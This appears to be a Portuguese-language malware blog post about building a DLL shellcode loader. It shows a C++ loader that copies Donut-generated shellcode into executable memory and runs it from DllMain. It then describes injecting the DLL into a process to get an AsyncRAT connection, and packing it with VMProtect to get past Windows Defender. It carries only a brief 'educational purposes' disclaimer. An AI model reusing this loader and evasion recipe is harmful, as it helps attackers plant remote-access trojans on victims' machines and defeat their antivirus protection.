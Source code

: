 ```yaml
---
weight: 13
title: "Post XIII: Creating DLL Loader"
date: 2023-01-13T15:58:26+08:00
lastmod: 2023-01-13T15:58:26+08:00
draft: false
author: Vith0r
authorLink: https://github.com/Vith0r
description: Reverse Shell Simples.
images: 
resources:
  - name: featured-image
    src: Image.jpeg
tags:
  - Malware
categories:
  - Malware
lightgallery: true
toc:
  auto: false
---
```


## Podemos executar um programa na memória apartir de uma DLL?

A resposta é sim, podemos fazer isso, e não é muito difícil, Para isso, podemos usar um projeto que transforma nosso executável .NET em um binário. O nome do projeto é [Donut](https://github.com/TheWover/donut). sugiro olhar tudo que esse projeto faz, porque ele faz muito mais do que apenas converter o executável em binário.

> [!warning] Warning
> As informações que você encontrar neste post, técnicas, códigos, provas de conceito ou qualquer outra coisa são estritamente para fins educacionais.


![](https://telegra.ph/file/fa4b2d159e30a672d7efb.png)

Não precisamos nos preocupar muito com os argumentos por agora. Vamos primeiro converter o executável para binário.

![|750x372](https://telegra.ph/file/727c33bbaa4ad2cda179e.png)

Vamos agora copiar os bytes desse binário para poder colocá-los em nosso código. Podemos copiar o binário usando o [hxd](https://mh-nexus.de/en/hxd/).

![](https://telegra.ph/file/6e64e9d23fe900bdd1511.png)

## Código:
O código que vamos utilizar vai ser esse:

```cpp
#include <Windows.h>

unsigned char rawData[0] = { 0x00, 0x00, 0x00, 0x00 };

int main() {
    LPVOID exec_mem = VirtualAlloc(0, sizeof(rawData), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(exec_mem, rawData, sizeof(rawData));
    ((void(*)())exec_mem)();
    VirtualFree(exec_mem, sizeof(rawData), MEM_RELEASE);
    return 0;
}

#ifdef _WINDLL
BOOL WINAPI DllMain(HINSTANCE hInstance, DWORD dwReason, LPVOID lpReserved) {
    DisableThreadLibraryCalls(hInstance);
    switch (dwReason) {
        case DLL_PROCESS_ATTACH: {
            CreateThread(0, 0, (LPTHREAD_START_ROUTINE)main, 0, 0, 0);
            break;
        }
    }
    return TRUE;
}
#endif
```

---

Podemos testar para ver se isso está funcionando. Para isso, podemos usar o [Process-Hacker](https://processhacker.sourceforge.io/) apenas para injetar nossa Dll em um processo:

![](https://telegra.ph/file/3a90d684c298edcfa26dc.png)

Após ter injetado a DLL, vamos ter recebido uma conexão com o [AsyncRat](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp):

![](https://telegra.ph/file/d0bf58d71841b7115aa4d.png)

Bom, que tal verificar se este simples código tem a capacidade de contornar o Windows Defender pelo menos:

![](https://telegra.ph/file/5f73cc4c1ce2d07e271a1.png)

Como podemos ver, ele detecta o arquivo facilmente. Como não é meu intuito aprofundar-me sobre a evasão de antivírus neste post, podemos apenas utilizar um software para proteger nossa DLL e verificar se conseguimos contornar o Windows Defender após proteger nossa DLL.
Para isso, estarei utilizando o VMProtect Professional:

![](https://telegra.ph/file/4ef02a9ee15091b70b232.png)

Agora vamos testar nossa Dll novamente e ver se contornamos o Windows Defender:

![](https://telegra.ph/file/75cb8713938e1cac4645d.png)

Como podemos ver, contornamos facilmente o Windows Defender!
Pode ser uma maneira simples de fazer isso, mas, de qualquer forma, funciona e é isso que importa.